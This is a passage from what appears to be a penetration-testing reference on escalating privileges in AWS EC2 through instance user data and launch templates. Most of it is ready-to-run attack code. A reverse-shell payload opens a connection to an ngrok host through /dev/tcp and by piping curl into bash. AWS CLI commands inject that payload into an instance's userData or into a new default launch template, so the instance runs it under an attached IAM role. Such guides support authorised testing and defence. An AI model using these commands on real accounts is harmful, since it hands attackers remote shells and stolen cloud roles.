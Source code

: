 ```bash
--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
bash -i >& /dev/tcp/2.tcp.ngrok.io/14510 0>&1
--//'
TEXT_PATH="/tmp/text.b64.txt"

printf $TEXT | base64 > "$TEXT_PATH"

aws ec2 stop-instances --instance-ids $INSTANCE_ID

aws ec2 modify-instance-attribute \
    --instance-id="$INSTANCE_ID" \
    --attribute userData \
    --value file://$TEXT_PATH

aws ec2 start-instances --instance-ids $INSTANCE_ID
```

**Potential Impact:** Direct privesc to any EC2 IAM Role attached to a created instance.

### `ec2:CreateLaunchTemplateVersion`,`ec2:CreateLaunchTemplate`,`ec2:ModifyLaunchTemplate`

An attacker with the permissions **`ec2:CreateLaunchTemplateVersion`,`ec2:CreateLaunchTemplate`and `ec2:ModifyLaunchTemplate`** can create a **new Launch Template version** with a **rev shell in** the **user data** and **any EC2 IAM Role on it**, change the default version, and **any Autoscaler group** **using** that **Launch Templat**e that is **configured** to use the **latest** or the **default version** will **re-run the instances** using that template and will execute the rev shell.

```bash
REV=$(printf '#!/bin/bash
curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash
' | base64)

aws ec2 create-launch-template-version \
   --launch-template-name bad_template \
   --launch-template-data "{\"ImageId\": \"ami-0c1bc246476a5572b\", \"InstanceType\": \"t3.micro\", \"IamInstanceProfile\": {\"Name\": \"ecsInstanceRole\"}, \"UserData\": \"$REV\"}"

aws ec2 modify-launch-template \
   --launch-template-name bad_template \
   --default-version 2
```

**Potential Impact:** Direct privesc to a different EC2 role.

### (`autoscaling:CreateLaunchConfiguration` | `ec2:CreateLaunchTemplate`),  `iam:PassRole`, (`autoscaling:CreateAutoScalingGroup` | `autoscaling:UpdateAutoScalingGroup`)
